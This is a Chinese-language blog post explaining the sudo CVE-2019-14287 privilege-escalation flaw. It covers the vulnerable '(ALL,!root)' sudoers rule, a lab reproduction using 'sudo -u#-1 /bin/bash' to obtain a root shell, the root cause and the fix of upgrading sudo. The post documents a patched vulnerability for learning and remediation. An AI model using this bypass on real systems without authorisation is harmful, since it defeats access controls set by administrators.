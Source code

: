 ```yaml
---
title: CVE-2019-14287提权漏洞
date: 2019-10-16 09:15:00
categories: 信息安全
top: false
cover: true
coverImg: /medias/banner/2.jpg
tags:
  - 提权漏洞
---
```


#  CVE-2019-14287提权漏洞

*sudo*是linux系统管理指令，是允许系统管理员让普通用户执行一些或者全部的root命令的一个工具。

## 漏洞描述

这个漏洞比较鸡肋，并不是sudo版本低就可以让你能够提权，需要满足一定条件才能触发这个漏洞。

## 场景复现

Linux默认是没有将用户添加到sudoers列表中的，需要root手动将账户添加到sudoers列表中，才能让普通账户执行sudo命令。

### 影响版本

sudo < 1.8.28

### 添加用户

在服务多的情况下，管理员会将一些普通用户添加到sudoers列表中，这也是我们触发漏洞的关键。

```
# username  ALL=(ALL,!root) ALL
```

- username表示添加的用户名
- 第一个ALL表示允许该用户在任意机器或者终端中使用sudo
- 括号里面的（ALL,!root）表示命令可以被除了root以外的任意用户身份去执行
- 最后一个ALL表示被允许执行的命令

修改/etc/sudoers文件，kalifun用户不能以root用户执行/bin/bash命令。

```
kalifun ALL=(ALL,!root) /bin/bash
```

### 操作过程

1.切换kalifun用户

```
#su kalifun
#whoami
#kalifun
```

2.执行/bin/bash

```
#sudo /bin/bash
Sorry, user kalifun is not allowed to execute '/bin/bash' as root on xxxxxxxx.
```

你会发现你无法执行bash命令。现在我们进行提权操作。

3.提权

```
#sudo -u#-1 /bin/bash
bash-4.2# whoami
root
```

现在你就变成root权限了。

![](https://image.kalifun.top/upload/1910/d32109e04df264b4.png)

## 漏洞原理

用户可以通过命令行上的 –u#-1 绕过这个非 root限制。如果将 sudo配置为允许用户通过Runas 规范中的 ALL 关键字以任意用户身份运行命令，则可以通过指定用户 ID为-1 或4294967295 以 root 用户身份运行命令。只要Runas 规范中最先列出 ALL 关键字，即使Runas 规范明确禁止 root访问权限，那么具有足够的 sudo 权限的而用户即可以 root 身份运行命令。以这种方式运行的命令的日志条目会把目标用户列为 4294967295而非 root。

 ## 修复

手动升级sudo版本。

## 参考

[Linux Sudo被曝漏洞，可导致用户以root权限运行命令](https://www.freebuf.com/news/216821.html)